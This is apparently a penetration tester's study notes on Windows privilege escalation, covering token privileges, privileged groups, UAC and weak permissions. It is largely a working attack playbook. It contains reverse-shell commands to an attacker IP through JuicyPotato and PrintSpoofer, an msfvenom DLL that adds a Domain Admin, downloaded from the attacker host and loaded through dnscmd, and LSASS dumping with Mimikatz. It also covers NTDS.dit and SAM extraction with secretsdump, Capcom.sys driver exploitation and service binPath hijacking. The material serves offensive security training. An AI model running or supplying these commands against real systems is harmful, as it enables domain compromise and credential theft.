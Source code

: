 # Useful Tools

| Tool                                                                                                     | Description                                                                                                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt)                                                        | C# project for performing a wide variety of local privilege escalation checks                                                                                                                                                                                                                                             |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)                                                                                                          |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)      | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found                                                                                                                                                         |
| [SharpUp](https://github.com/GhostPack/SharpUp)                                                          | C# version of PowerUp                                                                                                                                                                                                                                                                                                     |
| [JAWS](https://github.com/411Hall/JAWS)                                                                  | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0                                                                                                                                                                                                                                  |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher)                                              | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information                                                                                                                         |
| [Watson](https://github.com/rasta-mouse/Watson)                                                          | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.                                                                                                                                                                                                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)                                                        | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more                                                                             |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)                        | WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported                 |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)         | We will use several tools from Sysinternals in our enumeration including [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist), and [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) |

We can also find pre-compiled binaries of `Seatbelt` and `SharpUp` [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries), and standalone binaries of `LaZagne` [here](https://github.com/AlessandroZ/LaZagne/releases/). It is recommended that we always compile our tools from the source if using them in a client environment.

# Privileged groups

|**Group**|**Description**|
|---|---|
|Default Administrators|Domain Admins and Enterprise Admins are "super" groups.|
|Server Operators|Members can modify services, access SMB shares, and backup files.|
|Backup Operators|Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.|
|Print Operators|Members can log on to DCs locally and "trick" Windows into loading a malicious driver.|
|Hyper-V Administrators|If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.|
|Account Operators|Members can modify non-protected accounts and groups in the domain.|
|Remote Desktop Users|Members are not given any useful permissions by default but are often granted additional rights such as `Allow Login Through Remote Desktop Services` and can move laterally using the RDP protocol.|
|Remote Management Users|Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).|
|Group Policy Creator Owners|Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.|
|Schema Admins|Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.|
|DNS Admins|Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to [create a WPAD record](https://web.archive.org/web/20231115070425/https://cube0x0.github.io/Pocing-Beyond-DA/).|

# User rights

| Setting [Constant](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | Setting Name                                                                                                                                                                              | Standard Assignment                                     | Description                                                                                                                                                                                                                                                                                                                                                |
| ----------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SeNetworkLogonRight                                                                             | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network)               | Administrators, Authenticated Users                     | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+.                                                                                                                                                                                                             |
| SeRemoteInteractiveLogonRight                                                                   | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server.                                                           |
| SeBackupPrivilege                                                                               | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)                               | Administrators                                          | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.                                                                                                                                                                                         |
| SeSecurityPrivilege                                                                             | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log)                         | Administrators                                          | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer.                          |
| SeTakeOwnershipPrivilege                                                                        | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)         | Administrators                                          | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.                                                                                                                                |
| SeDebugPrivilege                                                                                | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs)                                                             | Administrators                                          | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege                                                                          | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.                                                                                                                                                                                                                |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code.                                                                                      |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object.                                                                                       |

# SeImpersonate and SeAssignPrimaryToken

The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

## JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

```shell
sudo nc -lnvp 8443
```

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

```cmd
PrintSpoofer.exe -c "ncat.exe 10.10.14.3 8443 -e cmd"
```

```shell
nc -lnvp 8443
```

# SeDebugPrivilege

By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

> [!NOTE]
> Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

## Remote Code Execution as SYSTEM

<https://github.com/decoder-it/psgetsystem>
<https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC>

# SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights.

These privileges on their own could likely be used to escalate privileges. Still, there may be times when we need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since we may also find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

Suppose we encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, we could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.

#### Enabling SeTakeOwnershipPrivilege

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

> [!NOTE]
> Note: Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.

Let's check out our target file to gather a bit more information about it.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }
```

Checking File Ownership

```powershell
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

## Files of Interest

```plain
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.

# Windows Built-in Groups

Backup Operators  Event Log Readers  DnsAdmins
Hyper-V Administrators  Print Operators  Server Operators

## Backup Operators

Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

### Attacking a Domain Controller - Copying NTDS.dit

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

```powershell
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```cmd
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

### Extracting Credentials from NTDS.dit

```powershell
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### Extracting Hashes Using SecretsDump

We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. These can then be used for pass-the-hash to access additional resources or cracked offline using `Hashcat` to gain further access.

```shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Copying Files with Robocopy

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.

```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This eliminates the need for any external tools.

### NetExec module

```shell
nxc smb dc -u user -p pass -M backup_operator
```

# Event Log Readers

Administrators or members of the [Event Log Readers](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers) group have permission to access this log. It is conceivable that system administrators might want to add power users or developers into this group to perform certain tasks without having to grant them administrative access.

We can query Windows events from the command line using the [wevtutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) utility and the [Get-WinEvent](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.1) PowerShell cmdlet.

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

```cmd
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

```powershell

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

The cmdlet can also be run as another user with the `-Credential` parameter.

Other logs include [PowerShell Operational](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.1) log, which may also contain sensitive information or credentials if script block or module logging is enabled. This log is accessible to unprivileged users.

# DnsAdmins

The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. As detailed in this excellent [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common)

- DNS management is performed over RPC
- [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
- When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

## ServerLevelPluginDll

Generating Malicious DLL

```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Download the file to the target

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Loading DLL as Non-Privileged User

```cmd hl:5
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

Loading DLL as Member of DnsAdmins

```cmd hl:4
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

## Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

Disabling the Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

Adding a WPAD Record

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

# Print Operators

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If we examine the privileges again, `SeLoadDriverPrivilege` is visible but disabled.

```cmd hl:9
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system          Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

t's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.

## Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

This launches a shell with SYSTEM privileges.

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

## Automating the Steps

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```cmd
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

> [!NOTE]
> Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".

# Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

Querying the AppReadiness Service

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```cmd
sc start AppReadiness
```

```cmd
net localgroup Administrators
```

# User Account Control

Confirming UAC is Enabled

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Checking UAC Level

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

Checking Windows Version

```powershell
[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it.

# Weak Permissions

## Permissive File System ACLs

### Running SharpUp

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
  
```

### Checking Permissions with icacls

